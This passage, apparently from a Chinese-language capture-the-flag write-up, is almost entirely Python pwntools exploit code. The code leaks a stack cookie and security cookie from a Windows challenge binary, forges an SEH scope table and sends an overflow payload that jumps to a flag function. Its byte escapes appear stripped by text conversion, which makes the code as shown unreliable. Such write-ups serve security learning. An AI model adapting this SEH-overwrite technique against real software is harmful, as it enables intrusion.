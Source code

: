 ```
handler = t.recvuntil('rn')[:-2]
print 'handler: ',handler
handler = int(handler,16)


print t.recvuntil('to know more?rn')
t.sendline('yes')
print t.recvuntil('do you want to know?rn')
cookie = stack_addr-(0x19ff10-0x19fed4)
print 'cookie addr: ',hex(cookie)
t.sendline(str(cookie))
print t.recvuntil('value is 0x')
cookie = t.recvuntil('rn')[:-2]
print 'cookie: ',cookie
cookie = int(cookie,16)

print t.recvuntil('to know more?rn')
t.sendline('yes')
print t.recvuntil('do you want to know?rn')
sc = 0x47C004-0x40395e+ main_addr_num
print 'sc addr: ',hex(sc)
t.sendline(str(sc))
print t.recvuntil('value is ')
sc = t.recvuntil('rn')[2:-2]

print 'sc: ',sc
sc = int(sc,16)
```

计算伪造的scope_table地址:

```
buf_addr = stack_addr-(0x19FF10-0x019FE44)
print 'buf_addr:', hex(buf_addr)
scope_addr = (buf_addr+4)^sc #这里注意一下,需要将地址和security_cookie异或一下填入栈中
print 'scope_addr: ',hex(scope_addr)
print t.recvuntil('to know more?rn')
t.sendline('1')
```

构造payload

```
getflag_addr = main_addr_num+0x0408266-0x40395E
payload = 'aaaa'
payload += 'xE4xFFxFFxFFx00x00x00x00x0CxFFxFFxFFx00x00x00x00xFExFFxFFxFF'+p32(getflag_addr)*2
payload +='x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x31x31x31x00x32x31x32x00x00x00x00x00x00x00x00x00'
payload +=p32(cookie)+'3'*8+p32(seh_next)+p32(handler)+p32(scope_addr)+p32(0)+p32(ebp)


print(len(payload))
t.sendline(payload)
print t.recvuntil('you want to know more?rn')
t.sendline('yes')
print t.recvuntil('n')
t.sendline('111')
print t.interactive()
```
